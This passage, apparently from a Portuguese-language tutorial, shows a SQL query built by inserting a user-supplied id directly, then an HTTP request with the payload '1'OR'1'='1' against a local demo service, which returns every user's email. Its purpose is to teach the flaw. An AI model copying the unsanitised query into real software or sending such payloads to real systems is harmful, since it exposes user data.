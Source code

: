 No service executamos nossa query, passando o id diretamente `"SELECT id, name, email FROM users WHERE id = %s", id`, aqui está a vulnerabilidade estamos passando o id diretamente para a consulta, sem tratar antes.

Vamos fazer uma requisição usando a extensão do [HTTP Client](https://marketplace.visualstudio.com/items?itemName=humao.rest-client){:target="\_blank"} do vscode:

```http
GET http://localhost:8080/users?id=1 HTTP/1.1
content-type: application/json
```

Recebemos o retorno esperado:

```json
[
  {
    "id": 1,
    "name": "John Doe",
    "email": "john.doe@example.com"
  }
]
```

Agora, vamos injetar o sql:

```http
GET http://localhost:8080/users?id='1'OR'1'='1' HTTP/1.1
content-type: application/json
```

Recebemos todos os usuários:

```json
[
  {
    "id": 1,
    "name": "John Doe",
    "email": "john.doe@example.com"
  },
  {
    "id": 2,
    "name": "Bob",
    "email": "bob@example.com"
  },
  {
    "id": 3,
    "name": "Charlie",
    "email": "charlie@example.com"
  },
  {
    "id": 4,
    "name": "Slash",
    "email": "slash@example.com"
  },
  {
    "id": 5,
    "name": "Gilmour",
    "email": "gilmour@example.com"
  },
  {
    "id": 6,
    "name": "Steve Vai",
    "email": "steve_vai@example.com"
  }
]
```
